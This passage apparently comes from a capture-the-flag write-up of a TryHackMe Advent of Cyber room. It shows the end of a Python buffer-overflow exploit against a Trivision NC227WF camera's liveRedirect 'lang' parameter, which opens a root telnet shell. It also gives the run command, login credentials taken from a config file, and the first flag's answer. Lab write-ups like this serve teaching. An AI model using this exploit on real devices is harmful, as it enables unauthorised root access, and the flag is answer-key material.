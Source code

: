 ```python
buf += "HHHH"
"""


buf += "C" * (400-len(buf))

lang = buf

request = "GET /form/liveRedirect?lang=%s HTTP/1.0\n" % lang + \
    "Host: BBBBBBBBBBBB\nUser-Agent: ARM/exploitlab\n\n"

#print request,


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, int(port)))
s.send(request)
s.recv(100)

time.sleep(2)
tn = Telnet(ip, 23)
tn.interact()
```

Executing the script with the host's IP and port then opens a Root reverse shell to the system.

```shell
[niik@tuf504]-[~/] python2 trivision_nc227wf_expl.py 10.10.34.245 50628
```

After some enumeration, the Username and Passwrod for the web login were then located in `/etc/webs/umconfig.txt`:

```shell
# cat /etc/webs/umconfig.txt
cat /etc/webs/umconfig.txt
TABLE=users

ROW=0
name=admin
password=Y3tiStarCur!ouspassword=admin
group=administrators
prot=0
disable=0
```

![Flag 1](blog/thm/aoc_23_room2/arm_1.png)

>What is the content of the first flag?
>- [x] THM{YETI_ON_SCREEN_ELUSIVE_CAMERA_STAR}
{: .prompt-info }

## NoSQLi Attack
